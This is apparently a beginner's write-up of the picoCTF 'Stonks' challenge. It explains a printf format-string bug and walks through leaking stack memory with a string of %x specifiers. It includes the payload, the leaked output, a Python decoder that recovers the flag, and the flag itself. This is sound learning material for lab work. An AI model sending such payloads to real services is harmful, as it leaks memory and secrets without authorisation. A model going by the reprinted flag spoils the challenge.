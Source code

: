 # Stonks

### Disclaimer:
This is my first ctf within the pwn category. Therefore I used another writeup by [Abraxus](https://ctftime.org/user/100246) on CTFtime.org (Link to writeup: https://ctftime.org/writeup/28935) for own learning.

### Task description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

### So we begin

1. We open file, connect in our shell and read hint to see where to look for our flag. 

  What we see is that our flag is in a separate file on the server and is beaing read and stored in the variable api_buf.

  ![Code snippet of filestream being read into variable in memory](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/our_flag_stored_in_variable.png)

  This means:
  - Our flag is stored in a local variable in the so called "stack" (inside memory)

  We also know:
  - printf() function can print out stuff from the stack, and not only normal stuff, we can make it print out our flag if there is code that lets us do it.

  Therefore, we take a look at the hint once more. 

  ![Hint says: Okay, maybe I'd believe you if you find my API key.](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/hint.png)

  And we find the snippet that gets input from the user:

  ![Code snippet of functions that stores user input in variable, and print the exact variable right back to us](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/bingo.png)

  Bingo! We found the vulnerability that we want to exploit to get our flag.

  What we see:
  - scanf() function that reads whatever you write into the buffer, and stores it into a variable
  - printf() function that writes your exact input, right back at us.

  What we know (or should know):
  - %s print out strings, %i print out int AND MOST IMPORTANT %x print out hexadecimal.
  - printf can print out all the data in our stack by requesting it, using a bunch of format specifiers (i.e %s, %c, %f etc.)(dont know what this consept is called)

  And THIS IS GOOD, because:
  - If we, instead of sending a "API token" as it requests, we send a string constisting of many %x, we will then make the process that runs on the server, to print out whatever is stored in the stack, which is in this case our flag. (use hiphens in between because our variable is a char pointer and not a string)

  My payload:

  ``` text
  %x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
  ```

  You can 

  !["What is your API token?" written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/what_is_your_api_token.png)

  Then we see the data being printed back to us!

  ![Data from the stack written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/buying_stonks_with_token.png)

  Now we see we cant read it, but we can format it by making a small program.

  We use the following program provided in the other writeup by Abraxus.

  Copy the output that you get:

  ```
  9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440
  ``` 

  ```python#Output that we got from the server
ourEncodedFlag = "9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440"

#The string we will store our flag in
s = ""

#Iterating through each hex value in ourEncodedFlag
for i in ourEncodedFlag.split('-'):

    #If the length of the string is 8, we know it is valid hex value that stores a character
    if len(i) == 8:
        a = bytearray.fromhex(i)

        #Iterating through each byte in the bytearray and reversing it because of endianness
        for b in reversed(a):

            #If the byte is a valid ascii character, we add it to our string
            if b > 32 and b < 128:
                s += chr(b)


print(s)    #output: qpicoCTF{I_l05t_4ll_my_m0n3y_6045d60d}J@t
  ```

  This gives us - in our case - the flag:

  ```
  picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
  ```

  The flag can differ depending on which instance (which port) you are connecting to. (i.e 20195 is my port: nc mercury.picoctf.net 20195)

    
